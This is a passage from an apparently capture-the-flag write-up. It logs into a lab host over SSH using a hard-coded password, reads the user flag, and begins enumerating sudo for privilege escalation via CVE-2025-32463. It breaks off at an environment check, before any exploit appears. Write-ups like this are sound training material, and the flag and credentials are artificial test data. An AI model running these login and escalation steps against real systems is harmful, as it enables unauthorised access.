 ### Getting User Flag

```bash
sshpass -p 'SecurinetsShop2025!' ssh -o StrictHostKeyChecking=no shopuser@172.19.4.10 'cat ~/user.txt'
```

**Output:**
```
Securinets{0ww_Y0u_3xpl01t3d_TH3_LF1_34SLY}
```

🚩 **USER FLAG CAPTURED!**

---

## Privilege Escalation to root (CVE-2025-32463)

### Initial Sudo Enumeration

```bash
sshpass -p 'SecurinetsShop2025!' ssh -o StrictHostKeyChecking=no shopuser@172.19.4.10 'sudo --version'
```

**Output:**
```
Sudo version 1.9.16p2
Sudoers policy plugin version 1.9.16p2
Sudoers file grammar version 50
Sudoers I/O plugin version 1.9.16p2
Sudoers audit plugin version 1.9.16p2
```

**Key Finding**: Sudo version **1.9.16p2** (vulnerable to CVE-2025-32463)

### Checking Sudo Privileges

```bash
sshpass -p 'SecurinetsShop2025!' ssh -o StrictHostKeyChecking=no shopuser@172.19.4.10 'echo SecurinetsShop2025! | sudo -S -l'
```

**Output:**
```
Password: Sorry, user shopuser may not run sudo on b0bbbb1eca83.
```

❌ **shopuser is NOT in sudoers file** (despite being in sudo group)

### Environment Check

```bash
sshpass -p 'SecurinetsShop2025!' ssh -o StrictHostKeyChecking=no shopuser@172.19.4.10 'ls -la /.dockerenv && cat /etc/os-release | head -5'
```
